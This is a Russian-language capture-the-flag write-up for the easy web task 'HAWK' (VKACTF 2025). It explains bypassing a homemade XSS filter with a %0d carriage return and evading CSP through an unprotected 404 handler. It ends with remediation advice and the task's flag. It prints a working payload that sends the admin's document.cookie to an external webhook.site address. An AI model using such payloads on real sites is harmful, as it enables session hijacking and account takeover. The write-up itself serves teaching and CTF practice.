

## HAWK

| Событие | Название | Категория | Сложность |
| :------ | ------ | ------ | ------ |
| VKACTF 2025 | HAWK | web | easy |

  
### Описание

> Автор: [m1st3r_Sc413t7x](https://t.me/m1st3r_Sc413t7x)
>
В системе `HAWK` (Х.О.К.) мнения граждан учитываются "единогласно", но окончательное слово всегда за доктором Сеченовым, который в последнее время неохотно одобряет какую-либо инициативу. Возможно он что-то скрывает. Проведите голосование так, чтобы обойти алгоритмы `Коллектива 2.0` и узнайте ЧТО же это. 


### Решение

Пользователю дан сервис, представляющий собой реализацию голосования, где один из членов `Коллектива` выдвигает какую-то идею, а все остальные голосуют, но по итогу последнее слово всегда принимает администратор - доктор Сеченов. Изучив описание и сервис понимаем, что все наши голосования просматриваются администратором. Это наталкивает нас сразу на мысль перехватить запрос и посмотреть, что же там. Пытаемся провести `XSS` инъекцию и понимаем, что есть какая-то фильтрация на теги.

```js
11<script>alert(1)</script>22 -> 1122
```

Настало время посмотреть "исходники". В них видим интересную функцию в файле `/static/js/app.js`, которая санитизирует любые теги, видимо в целях безопасности. Но в любом случае самописная фильтрация, возможно, может быть уязвима, как и в нашем случае. Перебрав несколько, а может и множество вариантов, понимаем, что обходом данной фильтрации является символ возврата коретки %0d:

```js
<script%0d>alert(1)</script%0d>
```

Но мы не можем использовать такую нагрузку в наших полях. Хорошо что в этом же файле мы видим, что помимо этого у нас есть 2 параметра, которые могут принимать значения и работать абсолютно также:

```go
const title = urlParams.get("title");
const description = urlParams.get("description");
```

Хорошо, а теперь работаем через них. Вводим простую нагрузку ииии... Не работает, но почему? Видимо нужно посмотреть "исходники" еще раз. И да, действительно, в файле `/app/routes.py` находим `CSP`, который запрещает нам выполнение скриптов от внешних источников. И как быть? Нужно найти какой-то вариант получить запрос. Стоит фильтрация, стоит `CSP`, давайте еще внимательнее посмотрим исходники. И вот за что мы должны зацепиться:

```py
def page_not_found(error):
    path = request.path
    return f"{path} not found"
```

В том же файле `/app/routes.py` находится обработчик несуществующей страницы, на который не распространяется наша `CSP`. Пытаемся выполнить любой скрипт (обходя санитизацию) - проходит, бинго, осталось подобрать рабочую нагрузку, чтобы перехватить запрос вместе с `cookies`:

```js
?title=test&description=<script%20src="http://{url}:17788/a/;fetch(%27https://webhook.site/e4e0eb38-45ad-4dcb-b55a-89fa68dc65a6//%27.concat(%27%27,document.cookie));//%22%0d/%3E%3C/script%0d%3Ehello
```

### Флаг возвращается на вебхук



### Устранение уязвимости

В данном таске были собраны несколько уязвимостей, которые естественно должны быть закрыты в реальном приложении:
1) Использование самописной `XSS` фильтрации небезопасно, лучше использовать уже проверенные решения, например, `DOMPurify`.
2) Необходимо обрабатывать все поступающие данные, даже с таких обработчиков, как на нашем примере.
3) Не нужно реализовывать многовходное поступление данных, если в этом нет необходимости.

### Флаг

```
vka{ya_dumal_easy_xss_a_tut_csp_kakoeto_vzyalos}
```
